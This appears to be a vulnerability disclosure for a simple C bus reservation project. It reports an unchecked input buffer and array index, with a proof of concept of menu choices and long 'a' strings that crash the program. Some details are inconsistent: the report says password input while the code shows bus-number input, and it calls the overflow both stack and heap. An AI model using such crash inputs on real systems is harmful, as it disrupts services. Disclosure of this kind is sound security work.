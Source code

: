 # **Buffer Overflow and Array Index Overflow in Bus Management System**



## supplier

[Simple Bus Reservation System In C Programming With Source Code - Source Code & Projects](https://code-projects.org/simple-bus-reservation-system-in-c-programming-with-source-code/)



## Vulnerability file

- CWE-120 (Buffer Copy Without Size Checking)
- CWE-128 (Wrap-around Error)



## describe

A stack-based buffer overflow vulnerability exists in the password input handling mechanism of the authentication system. The vulnerability allows attackers to cause a denial of service (DoS) and potentially execute arbitrary code by supplying specially crafted long password inputs that exceed the fixed buffer size.



### **Vulnerable Code Segment**

```
bus[10]; // Fixed-size array of 10 elements

void a::install() {
  cout<<"Enter bus no: ";
  cin>>bus[p].busn; // No bounds checking on busn input
  // [...] other inputs
  p++; // No bounds checking on array index
}
```

### **Root Cause Analysis**

#### **1. Buffer Overflow (CWE-120)**

- `bus[p].busn` and other string fields lack input length validation
- No protection against overlong input strings
- Likely uses unsafe C-style strings without proper bounds checking

#### **2. Array Index Overflow (CWE-128)**

- Global variable `p` increments without checking against array size (10)
- After 10 entries, will write out of bounds (`bus[10]` is invalid)
- Could lead to heap/metadata corruption

![image-20250417145212665](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417145212665.png)



## POC



enter 1 after   " Enter your choice:- "

![image-20250417145249586](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417145249586.png)



enter payload to cause the stack overflow to crash

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```



![image-20250417145412705](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417145412705.png)





enter 3 after   " Enter your choice:- "

![image-20250417145456808](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417145456808.png)



enter payload to cause the stack overflow to crash

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```



![image-20250417145630970](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417145630970.png)



result

we can see EXCEPTION_ACCESS_VIOLATION.

![image-20250417145702163](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417145702163.png)